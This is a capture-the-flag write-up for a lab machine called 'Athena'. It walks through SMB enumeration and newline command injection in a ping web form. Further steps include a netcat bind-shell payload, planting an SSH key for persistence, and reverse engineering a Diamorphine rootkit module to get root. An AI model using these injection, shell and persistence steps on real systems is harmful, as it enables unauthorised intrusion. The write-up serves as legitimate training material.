<div align="center">


# Athena

**Difficulty:** Medium    
**Category:** Samba & Reverse engineering

</div>

---



`smb2-security-mode`has two options.
* Message signing enabled
* Message signing required.
When signing isn't required SMB traffic is vulnerable to interception and NTLM relay attacks, allowing attackers to impersonate users or servers.

Can I impersonate an active user? Or an admin account?

**NTLM relay attacks**: Unsigned SMB traffic allows attackers to cature NTLM hashes and authenticate to other systems without knowing the passwords.
* So, if the traffic is unsigned via `not required`, I can use pass the hash. OR impersonate another account, since that message doesn't need to be signed with the secret. I can fake it.


## NTLM (New Technology LAN Manager)
Microsoft authentication protocol that verifies user identity using a "challenge-response"? mechanism without transmitting passwords over the network.

I remember something that without `NTLM` activated, the system becomes vulnerable to pass-the-hash attacks?

I found this:
"NTLM has `critical vulnerabilities`, including susceptibility to `Pass-the-Hash attacks` and relay attacks, because attackers can reuse stolen password hashes to authenticate without knowing the actual password. Despite patches and mitigations, NTLM remains a `target in enterprise networks`, and Microsoft has set deadlines for reducing `NTLMv1` usage to improve security".


## Writeup

Basic nmap scripts:

Look at all the shares I can access, if there are any that do not require authentication?
```bash
nmap --script smb-enum-shares -p 139,445 10.82.184.5
```

Check if the target is vulnerable to known smb exploits.
```bash
nmap --script smb-vuln* -p 139,445 10.82.184.5
```

No result from any of these.


enum4linux - tool for enumerating smb services
```bash
enum4linux 10.82.184.5
```

* domain/workgroup name: `SAMBA`


```bash
msfconsole
search "smb 3.1.1"
use "scanner/smb/smb_version"
set rhost 10.82.184.5
run
```



Running version 6.1


`nmblookup` is used to query NetBIOS names and resolve thm to IP addresses. It helps identify the hostname of a target system via NetBIOS.
```bash
nmblookup -A 10.82.184.5
```
* `-A` performs a reverse lookup (IP to NetBIOS name) 



We get the hostname `SAMBA`.

nbtscan scans a target IP to retrieve NetBIOS name information, including hostname and MAC address.
```bash
nbtscan 10.82.184.5
```


* Here shows the hostname `ROUTERPANEL`
* User `ROUTERPANEL`?


This is the most interesting one yet:
```bash
smbmap -H 10.82.184.5
```


We have `READ ONLY` access to public

```bash
smbclient -L 10.82.184.5
```
* `-L` list available shares on the system


Anonymous login successfull and we see the share `public`.

```bash
smbclient //10.82.184.5/public
# enter

```


```msg
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```



I can ping myself:
```bash
sudo tcpdump -i tun0
```




I try to enter this:



And get:



Lets open up burpsuite.

Since I can add the flag `-c` for count I should be able to perform RCE.

```bash
ping <input>
ping <-c 192.168.135.169> 
```

I cannot use `;`, `|`, `&` because I get "Attempt hacking!"

This worked!
```bash
-c 1 127.0.0.1%0aid
```


This has to be entered in burp, since it is URL encoded.

If I enter it into the ping tool I just get a syntax error since this is not modifying the HTTP "raw" request.



`%0a` is URL encoded `newLine`. So this is:
```bash
ping -c 127.0.0.1
id
```




It works!

`/etc/samba/smb.conf`



`/etc/passwd`
```text
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
athena:x:1001:1001::/home/athena:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

* User: athena

## Okay

Instead of making the target connect to me (`reverse shell`) I set up a listener on the target:



```HTTP
ip=127.0.0.1+-c1$(nc+-lp+4445+-e+/bin/bash)
```

And I connect with:
```bash
nc 10.82.184.5 4445
```


```bash
find / -not -path "/var/www/html*" -not -path "/proc*" -not -path "/snap*" -writable 2>/dev/null
```

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMa3SFT8EO51dS0QWDeuLzilfrmsB7g0zXPFFRB3TXAf kali@kali
" >> authorized_keys
```

```bash
athena@routerpanel:~$ cat notes/mynote.txt
Optimize my routine in the Linux environment:

1 - Clearing the cache: The /var/cache folder can store temporary files that are necessary and take up disk space. It is recommended to clean it periodically.
2 - Checking system logs: The system logs, located in /var/log, can grow quickly and take up a lot of disk space. Check them regularly and clean up old files.
3 - System update: Keeping the operating system up to date is important to ensure the security and proper functioning of the system. Regularly check for available updates and install them.
4 - Resource Usage Monitoring: Regularly check CPU, memory and disk usage to identify potential bottlenecks or performance issues.
```

```bash
Hello Director,

Below are some notes about backup activities in the Linux environment:

1 - Perform daily backup: It is important to create a daily routine to back up all important company data. This ensures that, in case of failure or loss of data, it is possible to recover it quickly and efficiently.
2 - Check the backup logs: It is essential to check the backup logs to ensure that all files were copied correctly and that there were no errors during the process.
3 - Store the backup in a secure location: It is important to store the backup in a safe and easily accessible location, such as an external disk or backup server, to ensure that the data can be recovered quickly in case of need.
4 - Test the backup regularly: It is essential to regularly test the backup to ensure that all data can be recovered correctly and that the restoration process is efficient.
5 - Document the backup process: It is important to document the entire backup process, including the routine, storage location, settings and logs, to facilitate maintenance and ensure that data is protected with protection.
6 - Please feel free to add more information to this list and keep these documents up to date.

Yours sincerely,

Athena
```

echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMa3SFT8EO51dS0QWDeuLzilfrmsB7g0zXPFFRB3TXAf kali@kali
" > /home/athena/.ssh/authorized_keys


# Priv Esc

I have this sudo permission on the account Athena:



I transfer the file to my machine and open it up in Ghidra:

By looking at `window -> functions`:



We have many interesting things: 
* hacked_getdents
* hacked_getdents64
* give_root
* hacked_kill
* diamorphine_init


Diamorphine is translated to swedish:`heroin` .  

Google:

**"Diamorphine is a sophisticated Linux kernel rootkit used by attackers to hide malicious activity, escalate privileges, and deploy malware on Linux systems."**

It is a rootkit that is not detected after loading, it hides itself and modifies existing modules. 

In ghidra:



* We can see `puVar2` at line 27. It is a reference (pointer) to the `__sys_call_table`.
* Which is where system calls are stored. "The Linux system call table is a crucial component of the Linux kernel, serving as a data structure that maps system call numbers to their corresponding kernel functions". 
* Lines `29-31` we store the `original` calls for **getdents, getdents64** and **kill**.
* Lines `33 & 34`we load the hacked versions into the `__sys_call_table.
* The real `kill` and `getdents64` are replaced with the fake ones.



By looking into `hacked_kill` we find line 20 to be very interesting. 
* If `iVar3` == 0x39 (57), then `give_root()`.


```bash
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```
This command inserts the module `venom.ko` into the linux kernel.



We should be able to see the module with:
```bash
lsmod | grep venom
```


But we cannot.


By looking into Ghidra again we remember the funciton `is_invisible`:



In `hacked_kill`:





By giving the flag `-63` we disable the `is_invisible` and now we can list the module we have loaded!



Now we can use the `give_root()` function by supplying the `-57` flag:



This is so cool!

```bash
cat /home/athena/user.txt && cat /root/root.txt
857c<REDACTED>e1a28
aecd<REDACTED>0bd48
```


# Attack Chain
1. Enumerate the public SMB shares, one contained a reference to a PING tool at a certain URL.
2. Obtain RCE through the ping field by escaping the command field.
3. Gain access to the account `athena` by injecting malicious code into their backup script.
4. Maintain persistence by fetching the private `id_rsa` key. 
5. See that we can load a malicious module into the kernel with `sudo insmod <path_to_module>`.
6. Transfer the binary to my machine and inspect it with Ghidra.
7. Find that the process `kill` can be replaced with a malicious `hacked_kill` that when supplied the correct flags, hides itself and gives root access.

